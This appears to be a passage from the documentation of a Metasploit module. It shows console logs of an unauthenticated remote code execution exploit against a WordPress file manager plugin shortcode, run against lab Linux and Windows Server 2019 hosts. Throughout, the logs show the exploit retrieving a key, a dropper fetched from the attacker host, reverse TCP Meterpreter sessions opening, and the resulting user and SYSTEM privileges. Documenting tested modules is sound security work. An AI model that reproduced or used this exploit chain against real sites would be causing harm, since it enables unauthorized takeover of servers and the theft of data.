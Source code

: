```
[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 5a669fda54
[*] Executing Linux Dropper for linux/aarch64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.10:1981/manX3C
[*] Client 192.168.201.10 (Wget/1.21.3) requested /manX3C
[*] Sending payload to 192.168.201.10 (Wget/1.21.3)
[+] Deleted nypafHKuf.php
[*] Meterpreter session 6 opened (192.168.201.10:4444 -> 192.168.201.10:38108) at 2023-06-28 15:36:11 +0000
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.10
OS           : Debian  (Linux 5.15.44-Re4son-v8l+)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```
### Windows Server 2019 Windows Command - cmd/windows/powershell/x64/meterpreter/reverse_tcp
```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 2a1a319c46
[*] Executing Windows Command for cmd/windows/powershell/x64/meterpreter/reverse_tcp
[*] Sending stage (200774 bytes) to 192.168.201.55
[+] Deleted HAJSKquhaDT.php
[*] Meterpreter session 2 opened (192.168.201.10:4444 -> 192.168.201.55:50464) at 2023-06-28 14:21:39 +0000

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
### Windows Server 2019 Powershell - windows/x64/meterpreter/reverse_tcp
```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 2a1a319c46
[*] Executing Windows Powershell for windows/x64/meterpreter/reverse_tcp
[*] Sending stage (200774 bytes) to 192.168.201.55
[+] Deleted XeIbfNpxl.php
[*] Meterpreter session 3 opened (192.168.201.10:4444 -> 192.168.201.55:50494) at 2023-06-28 14:24:08 +0000
```